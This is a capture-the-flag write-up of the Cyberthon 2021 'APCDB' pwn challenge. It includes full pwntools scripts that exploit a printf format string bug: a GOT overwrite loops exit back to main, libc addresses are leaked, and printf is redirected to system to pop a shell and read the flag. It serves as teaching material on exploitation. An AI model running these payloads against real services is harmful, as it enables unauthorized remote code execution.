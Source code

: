 ```yaml
---
title: Cyberthon 2021 - APCDB (pwn)
date: 2021-05-19T05:59:12Z
draft: false
description: format string exploitation, ret2libc
tocOpen: true
---
```


> We've found a network service that seems to be posing as a fake directory of APOCALYPSE members. Although it doesn't seem to be hooked up to any actual database, it does look a tad vulnerable. Could u try to break in anyway? Who knows, access to this server might come in useful.
>
> Interact with the service at: aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg:30201
>
> Note: once you get a shell, the flag.txt can be found in the user's home directory.
>
> Attached : [apcdb.zip](attachments/apcdb.zip)

## Overview

```c
{
  char format[264]; // [rsp+0h] [rbp-110h] BYREF
  unsigned __int64 v4; // [rsp+108h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  setup_IO(argc, argv, envp);
  banner();
  printf("[+] Contact Lookup: ");
  __isoc99_scanf("%255s", format);
  puts(s);
  printf("[+] Looking up contact for ");
  printf(format);
  puts("...");
  puts("[-] Sorry, no such member!");
  exit(0);
}
```

Let's break down what the program is doing here:

1. It prints a **banner()**
2. It scans in **%255s** worth of input into `format[264]`. _no bof :(_
3. It **printf(format)** _aka our input_ which gives us a format string vulnerability.
4. It then exits the program.

<br><br>

## Exploitation Ideas

It is apparent that we have to use the format string exploit in order to win, as it is the only exploit available to us.

However, there is no function that prints the flag or grants us a shell. System function is also **not imported** in this binary.

Hence it becomes apparent that we have to call system with a **ret2libc** attack.

Hence the idea is as such:

1. We have to first loop the program back so that our program doesnt just simply close after one loop.
2. We have to leak the LIBC of the functions so we are able to find the LIBC used and obtain our offset.
3. Find an ideal function to overwrite such that we can execute `system('/bin/sh')` and obtain a shell. _the only function that seems usable is printf_

Let's get started.

<br><br>

## Exploitation

Our first objective is to loop the program back continuously. This can be done by overwriting **GOT entry for exit() to the address of main**.

This is so that everytime the program tries to exit, it goes back to main instead.

Since PIE is not enabled, our GOT addresses will remain constant so we can easily find the addresses we need, made even easier with pwntools.

```py
from pwn import *
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30201)

context.binary = elf = ELF('apcdb')
exit = elf.got.exit
main = elf.sym.main

log.info(f"Main: {hex(main)}")
log.info(f"Exit: {hex(exit)}")

p.sendline(fmtstr_payload(6, {exit:main}))
p.interactive()
'''
[*] '/media/sf_dabian/Challenges/Cyberthon/Pwn/abcdb/apcdb'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)

 ] Exit: 0x601040
'''
```

Next, we find the offset of our input with a simple payload ```AAAAAAAA.%p.%p.%p.%p.%p.%p```.

![image](attachments/image1.png)

As you can see, our input offset is just nice on the 6th format string. Hence our offset is 6.

With that, we have everything we need to leak our global offset table values.

Initially, I tried sending `p.sendline(p64(elf.got.printf) + b'%6$s')` to the program. However it did not yield me my expected leak.

This is because the scanf only reads up till the null terminator. Consider this:

![image](attachments/image2.png)

Anyways, this means that we will have to put our format string at the start and our leak behind.

```py
from pwn import *
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30201)
context.binary = elf = ELF('apcdb')

exit = elf.got.exit
main = elf.sym.main

log.info(f"Main: {hex(main)}")
log.info(f"Exit: {hex(exit)}")

p.sendline(fmtstr_payload(6, {exit:main}))

payload = b'%7$sAAAA' + p64(elf.got.printf)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
printf = u64(p.recvline().rstrip(b'AAAA(\x10`...\n').ljust(8, b'\x00'))

payload = b'%7$sAAAA' + p64(elf.got.puts)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
puts = u64(p.recvline().rstrip(b'AAAA\x18\x10`...\n').ljust(8, b'\x00'))

log.info(f"Printf is {hex(printf)}")
log.info(f"Puts is {hex(puts)}")


p.interactive()

'''
[*] Printf is 0x7f4b82cb6f70
[*] Puts is 0x7f4b82cd2aa0
'''
```

By looking up the addresses of printf and puts in blukat, we find our libc.

![image](attachments/image3.png)

We can now calculate the libc base by using our leak to minus the libc symbol.

With the libc base, we can find libc symbol for system, thus allowing us to overwrite **printf GOT entry with libc system**.

Thus the next time we send **/bin/sh\x00** as our input, it will be executed by system rather than printf and we get a shell.

```py
from pwn import *
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30201)
context.binary = elf = ELF('apcdb')
libc = ELF('libc6_2.27-3ubuntu1.4_amd64.so')

exit = elf.got.exit
main = elf.sym.main

log.info(f"Main: {hex(main)}")
log.info(f"Exit: {hex(exit)}")

p.sendline(fmtstr_payload(6, {exit:main}))

payload = b'%7$sAAAA' + p64(elf.got.printf)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
printf = u64(p.recvline().rstrip(b'AAAA(\x10`...\n').ljust(8, b'\x00'))

payload = b'%7$sAAAA' + p64(elf.got.puts)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
puts = u64(p.recvline().rstrip(b'AAAA\x18\x10`...\n').ljust(8, b'\x00'))

log.info(f"Printf is {hex(printf)}")
log.info(f"Puts is {hex(puts)}")

libc.address = printf - libc.sym.printf

p.sendline(fmtstr_payload(6, {elf.got.printf: libc.sym.system}))

p.sendline('/bin/sh\x00')
p.clean()
p.sendline('cat */*/flag*')
print(p.recvline())
```

<br><br>

**Cyberthon{f4k3_c0nt4ct5_f41lur3}**
